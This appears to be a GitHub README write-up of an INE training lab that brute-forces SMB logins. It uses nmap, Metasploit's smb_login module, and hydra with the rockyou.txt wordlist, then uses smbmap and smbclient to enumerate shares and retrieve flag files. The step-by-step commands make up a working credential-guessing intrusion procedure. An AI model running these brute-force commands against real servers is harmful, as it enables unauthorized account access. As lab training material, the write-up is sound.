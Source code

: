 <h1>SMB Dictionary Attack</h1>


<h2>Description</h2>
This project consists of using known wordlists to conduct a dictionary attack on an SMB server. 
<br />
<br />
- A wordlist file is a list on common or bad passwords which can be used for brute force or dictionary attacks. A famous wordlist is the rockyou.txt wordlist, which contains over 14 million passwords that were leaked in past data breaches. I will provide examples of using different Kali Linux tools to conduct dictionary attacks. 
<br />
<br />

Disclaimer: The Kali Linux user machine and target machine used in this project was provided to me by INE for educational purposes. The misuse of the information in this project lab can result in criminal charges brought against the individual/individuals in question.
<br />


<h2>Languages and Utilities Used</h2>

- <b>nmap</b>
- <b>msfconsole</b>
- <b>hydra</b>
- <b>smbmap</b>
- <b>smbclient</b>


<h2>Environments Used </h2>

- <b>Kali Linux</b>

<h2>Project walk-through:</h2>

<p align="left">
Ping target machine to verify that it is active: <br/>
<br/>
- INE has provided me with Kali Linux GUI & target machine (target machine is one ip address above from mine).  I will run and ip a command to verify my own ip address. 
<br/>
<br/>
Commands: ip a
<br/>
ping 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/lj1us1d.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Run nmap scan to look for open ports: <br/>
<br/>
- We can see that port 445, also known as SMB, is open. 
<br/>
<br/>
Command: nmap 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/E5yXhP6.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Use the msfconsole tool (metasploit) to run a login brute force attack on the SMB server user Jane: <br/>
<br/>
- In this scenario, we already know that there is a user Jane so we will try to use the metasploit smb_login module with a password wordlist to try and find Jane's password. 
<br/>
- We can see that by using a password wordlist, we were able to find a match for user Jane's password, which is abc123. This is one reason why it is bad practice to use small straightforward passwords.
<br/>
<br/>
Commands: msfconsole
<br/>
use auxiliary/scanner/smb/smb_login
<br/>
options
<br/>
set rhosts 192.86.121.3
<br/>
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
<br/>
set smbuser jane
<br/>
exploit
<br/>
<br/>
<img src="https://i.imgur.com/dOAXa38.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/MSLfZtm.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/Oj2hjIe.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Use the hydra tool to run a brute force attack and try to enumerate the user admin's password: <br/>
<br/>
- Hydra is an open source, password brute-forcing tool designed around flexibility and high performance in online brute-force attacks. 
<br/>
- As we can see in the command below, I used the hydra tool to brute force the password for the user admin. First, I used gzip to unzip the wordlist I planned on using for the attack.  Then, I used the popular rockyou.txt wordlist to conduct the brute force attack.  I was able to get a valid password for user admin, which was password1. 
<br/>
<br/>
Commands: gzip -d /usr/share/wordlists/rockyou.txt.gz
<br/>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.86.121.3 smb
<br/>
<br/>
<img src="https://i.imgur.com/fVUOy7c.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Now that user admin's password is known, use smbmap tool to enumerate user shares & permissions: <br/>
<br/>
- We can see that the nancy share is read only while the admin and shawn shares are read, write. 
<br/>
<br/>
Command: smbmap -H 192.86.121.3 -u admin -p password1
<br/>
<br/>
<img src="https://i.imgur.com/ijAWuWq.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
User Jane's password (abc123) is known from one of the prior steps above. Now use the smbclient tool to verify if the share Jane is browseable: <br/>
<br/>
- We can see that the share jane is not listed, which means it is not browseable. 
<br/>
<br/>
Command: smbclient -L 192.86.121.3 -U jane
<br/>
<br/>
<img src="https://i.imgur.com/hyvQSnk.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Check if the share jane actually exists: <br/>
<br/>
- We can see that I was able to log into the share "jane" and run a ls (list items in directory) command successfully. We can verify that the share jane does exist. It also looks like there is a flag directory that we can try to access in the next step.
<br/>
<br/>
Command: smbclient //192.86.121.3/jane -U jane
<br/>
<br/>
<img src="https://i.imgur.com/YStmvR3.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Obtain and concatenate (cat) the flag that was found in the share "jane": <br/>
<br/>
- It looks like there was a directory named flag with a file named flag in the directory. I can use the get command to retrieve the flag and exit the smb server, then use the cat (concatenate) command to be able to read the flag.
<br/>
<br/>
Commands: smbclient //192.86.121.3/jane -U jane
<br/>
ls
<br/>
cd flag
<br/>
ls
<br/>
get flag
<br/>
exit
<br/>
<br/>
ls
<br/>
cat flag
<br/>
<br/>
<img src="https://i.imgur.com/KzIzy6S.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Since a flag was found in the "jane" share, verify if the "admin" has a flag as well: <br/>
<br/>
- I already have found the password for the "admin" share which is password1. I will use the smbclient tool to login into the "admin" share and perform a ls command to see what directories it has.
<br/>
- It looks like it has a directory called hidden. Inside the hidden directory there is a file called flag.tar.gz which I will retrieve by using the get command. Next, I have to extract the flag from the tar.gz file by using the tar -xf flag.tar.gz command. Now we can see that I am able to use the cat command to read the flag.
<br/>
<br/>
Commands: smbclient //192.86.121.3/admin -U admin
<br/>
ls
<br/>
cd hidden
<br/>
ls
<br/>
get flag.tar.gz
<br/>
exit
<br/>
<br/>
tar -xf flag.tar.gz
<br/>
ls
<br/>
cat flag
<br/>
<br/>
<img src="https://i.imgur.com/XddhQIi.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />




</p>
